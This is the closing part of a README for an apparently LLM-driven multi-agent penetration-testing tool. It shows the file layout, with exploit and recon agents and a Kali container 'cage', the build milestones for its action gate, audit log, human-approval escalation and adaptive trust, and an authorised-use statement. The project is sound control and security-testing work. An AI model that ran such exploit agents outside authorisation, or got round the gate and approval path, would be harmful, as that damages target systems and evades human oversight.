├── chrome.py         # Chrome/CDP backend — headless browser, request tamper
├── session.py        # governed interactive shell (`brukal shell`)
├── experiment.py     # the four-metric governance benchmark harness
├── eval.py           # the capability eval (steps-to-foothold, governed vs ungated)
└── agents/           # recon · exploit · verify · strategist
tests/                # 198 tests — the invariants, in code
docker/               # the Kali cage (Dockerfile + compose, chromium + VPN)
run_experiments.py · run_eval.py · run_engagement.py · run_recon.py
HOW_IT_WORKS.md · CODE_WALKTHROUGH.md · BUILD_ROADMAP.md · COMPARISON.md · SECURITY.md
```

---

## How it was built

Brukal was built in seven runnable milestones, each adding exactly one idea and
each keeping every prior test green:

| # | Milestone | Adds |
|---|-----------|------|
| 1 | The deterministic spine | gate + cage + audit; proves 100% interception |
| 2 | One recon agent | an LLM that *proposes* to the gate |
| 3 | Soft score + escalate | the gate's risk layer + human-approval path |
| 4 | Orchestrator + blackboard | planner + Obsidian-vault memory + task tree |
| 5 | Exploit + verify agents | genuinely multi-agent; catches hallucinated success |
| 6 | Adaptive trust | the per-agent `T_i` loop — the novel layer |
| 7 | The four experiments | the benchmark harness behind the headline results |

See [`BUILD_ROADMAP.md`](BUILD_ROADMAP.md), [`HOW_IT_WORKS.md`](HOW_IT_WORKS.md),
and [`CODE_WALKTHROUGH.md`](CODE_WALKTHROUGH.md) for the full story.

---

## Safety & responsible use

Brukal is for **authorised** security testing only — your own lab, or an
engagement you are explicitly contracted for. The design assumes you never point
a live run at a system you are not permitted to test, and the gate exists to keep
an autonomous agent inside that authorisation, not to grant it. Read
[`SECURITY.md`](SECURITY.md) before any live run.

## License

See [`LICENSE`](LICENSE).
